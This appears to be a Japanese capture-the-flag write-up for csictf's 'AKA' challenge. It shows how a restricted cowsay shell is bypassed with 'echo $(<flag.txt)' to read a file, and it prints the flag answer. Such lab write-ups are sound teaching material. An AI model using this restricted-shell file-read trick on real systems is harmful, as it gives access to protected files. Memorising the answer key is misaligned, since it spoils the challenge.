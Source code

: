 # AKA:Linux:XXXpts<!--XXX-->
Cows are following me everywhere I go. Help, I'm trapped!  
nc chall.csivit.com 30611  

# Solution
Linuxというよくわからないジャンルなので、問題の通りncをする。  
するとシェルが渡されるが、一般的なコマンドは実行できない。  
```bash
$ nc chall.csivit.com 30611
user @ csictf: $
ls
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo.                                   /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
user @ csictf: $
pwd
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo.                                   /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
`cat *`をするとファイル名だけ得られた。  
flag.txtが怪しい。  
```bash
user @ csictf: $
cat *
 ________________________________________
/ Don't look at me, I'm just here to say \
\ moo. flag.txt script.sh start.sh       /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
`echo`ができるようなのでechoでファイルを読み出してやればよい。  
```bash
$ nc chall.csivit.com 30611
user @ csictf: $
echo Test!!!!!
Test!!!!!
user @ csictf: $
echo $(<flag.txt)
csictf{1_4m_cl4rk3_k3nt}
```
flagが得られた。  

## csictf{1_4m_cl4rk3_k3nt}